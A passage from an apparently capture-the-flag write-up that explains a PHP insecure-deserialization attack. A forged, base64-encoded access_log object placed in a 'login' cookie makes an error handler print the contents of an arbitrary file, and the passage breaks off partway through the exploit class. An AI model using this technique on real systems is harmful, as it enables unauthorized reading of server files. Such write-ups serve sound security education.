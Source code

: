 ```php
                $rest = $res->fetchArray();
                if($rest["username"]) {
                        if ($rest["admin"] == 1) {
                                $admin = true;
                        }
                }
                return $admin;
        }
}

if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}

?>
```

we notice that the catch clause at the end outputs “Deserialization error” and the output of the call of _toString() on $perm

if perm is a permissions object then the _toString() will return username and password, however if it is and access_log object it will print the contents of the log_file, since the _toString() of the access_log class will be called instead

in order to make an access_log object enter that catch block we can url encode it, serialize it, base_64 encode it and set it as the value of a cookie named “login”

When the cookie will be detected, the try block will start running but when PHP tries to call is_guest() on $perm, it will throw an error since $perm is an object of type access_log and not permissions, hence it does not have a definition for the functions is_guest() and is_admin()

The error will be caught and the contents of the log_file will be printed

Now we refer back to the hint:

![Untitled](/assets/lib/Super Serial/Untitled%205.png)

if the flag is at ../flag then we just need to create an access_log object with the log_file field containing the path to ../flag

Then we serialize it, base64 encode it and url encode it

```php
<?php
class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

```